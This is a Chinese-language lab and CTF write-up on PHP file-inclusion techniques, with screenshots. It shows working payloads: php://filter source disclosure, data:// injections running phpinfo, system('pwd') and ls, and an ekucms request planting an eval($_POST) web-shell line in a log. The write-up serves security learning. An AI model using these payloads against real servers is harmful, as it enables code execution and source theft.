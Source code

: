 <a name="yqqd8"></a>
#### filter演示
`[http://10.1.1.7:49153/include.php?filename=php://filter/read=convert.base64-encode/resource=index.html](http://10.1.1.7:49153/include.php?filename=php://filter/read=convert.base64-encode/resource=index.html)`读取10.1.1.7中index.php文件以base64编码输出
```bash
root@f3d91c74e2ee:/var/www/html# cat index.html
<?php
        phpinfo();
?>
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1628998990996-725b40b5-d58f-4c78-a1a4-3b69465ac7ea.png#clientId=u20a951bb-9883-4&from=paste&height=72&id=u3df15b3c&originHeight=143&originWidth=1597&originalType=binary&ratio=1&size=20053&status=done&style=none&taskId=ua3f9d46d-4aef-4b2f-bdc7-25b7fb67095&width=798.5)

![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1628999067715-84b2edde-b072-4806-bacb-d33928f9229c.png#clientId=u20a951bb-9883-4&from=paste&height=412&id=u897c3c21&originHeight=823&originWidth=1920&originalType=binary&ratio=1&size=120842&status=done&style=none&taskId=u462b973f-b864-4c47-b355-723a66c1555&width=960)

<a name="RhH15"></a>
#### input演示
由于我的hackbar没法提交post数据所以这个没法演示
<a name="n2yrE"></a>
#### <br />
<a name="A0iVx"></a>
#### file演示
![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1629018248627-cc27fb02-b4d1-49ee-8974-a5772e863c4d.png#clientId=u20a951bb-9883-4&from=paste&height=143&id=u18856ae4&originHeight=286&originWidth=1920&originalType=binary&ratio=1&size=94933&status=done&style=none&taskId=u0c53d479-75de-4de1-af3a-faf4e6b6dd8&width=960)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1629018324857-0892b996-9457-46c2-8ac9-fc7b568387e8.png#clientId=u20a951bb-9883-4&from=paste&height=333&id=ud69dda20&originHeight=666&originWidth=1920&originalType=binary&ratio=1&size=111888&status=done&style=none&taskId=ueca69543-d057-4d33-92ce-b5e510eeba2&width=960)<br />file://需要的是完整的路径

<a name="BIdjF"></a>
#### data演示
```bash
http://10.1.1.7:49153/include.php?filename=data://text/plain,<?php phpinfo();?>
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1629018860778-c7ff7e0d-78c5-4b01-8432-76784943cdf9.png#clientId=u20a951bb-9883-4&from=paste&height=462&id=u5a8f9f70&originHeight=923&originWidth=1386&originalType=binary&ratio=1&size=117949&status=done&style=none&taskId=u562ae312-32de-4c2a-a14e-3690d2ae65b&width=693)<br />`[http://10.1.1.7:49153/include.php?filename=data://text/plain,<?php](http://10.1.1.7:49153/include.php?filename=data://text/plain,<?php) system('pwd')?>`<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1629018878435-80d9b380-72b0-4818-87ea-1922f360c6f1.png#clientId=u20a951bb-9883-4&from=paste&height=87&id=u69ee00cb&originHeight=174&originWidth=1304&originalType=binary&ratio=1&size=18236&status=done&style=none&taskId=uff09320e-cf07-4354-adc4-8b732fa8d89&width=652)<br />`[http://10.1.1.7:49153/include.php?filename=data://text/plain,<?php](http://10.1.1.7:49153/include.php?filename=data://text/plain,<?php) echo `ls`?>`<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1629019003101-719d86fb-d855-4d88-8fb2-e634cf93c881.png#clientId=u20a951bb-9883-4&from=paste&height=77&id=u9e04a44e&originHeight=146&originWidth=1403&originalType=binary&ratio=1&size=18166&status=done&style=none&taskId=u3b7f0029-c550-4178-b00d-dfa6079eb4a&width=743.5)

<a name="YmC1b"></a>
### 南邮杯CTF
`[http://4.chinalover.sinaapp.com/web7/index.php](http://4.chinalover.sinaapp.com/web7/index.php)`
```bash
http://4.chinalover.sinaapp.com/web7/index.php?file=php://filter/read=convert.base64-encode/resource=index.php
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1629020764409-b3c04554-46ac-4994-a76a-3ef3f454a48c.png#clientId=u20a951bb-9883-4&from=paste&height=78&id=uc2b9dc6a&originHeight=155&originWidth=1918&originalType=binary&ratio=1&size=42492&status=done&style=none&taskId=ufaebf407-e07d-495c-b9ce-1e1e9505aa5&width=959)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1629020810279-8bebf12c-dca3-46c6-9429-efc4c5555e82.png#clientId=u20a951bb-9883-4&from=paste&height=372&id=u752d3aef&originHeight=744&originWidth=1920&originalType=binary&ratio=1&size=151094&status=done&style=none&taskId=u3fb58597-8b1f-4eb2-84a5-d1a851debac&width=960)
<a name="DnKlG"></a>
### ekucms文件包含
```bash
http://10.1.1.7:49153/index.php?s=my/show/id/{~eval($_POST[x])}
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1629035982261-161c14aa-383e-4cb8-958c-b796417630b3.png#clientId=u20a951bb-9883-4&from=paste&height=187&id=u24631514&originHeight=374&originWidth=1917&originalType=binary&ratio=1&size=50682&status=done&style=none&taskId=u53995d23-6b77-4a86-90a8-075bb7c4330&width=958.5)
```bash
root@f3d91c74e2ee:/var/www/html/temp/Logs# pwd
/var/www/html/temp/Logs
root@f3d91c74e2ee:/var/www/html/temp/Logs# ls
21_08_15.log
root@f3d91c74e2ee:/var/www/html/temp/Logs# cat 21_08_15.log
[ 2021-08-15T21:57:58+08:00 ] ERR: (ThinkException) 模板不存在[./template/default/Home/my_{~eval($_POST[x])}.html]
root@f3d91c74e2ee:/var/www/html/temp/Logs#
```
利用环节未完成版本有问题







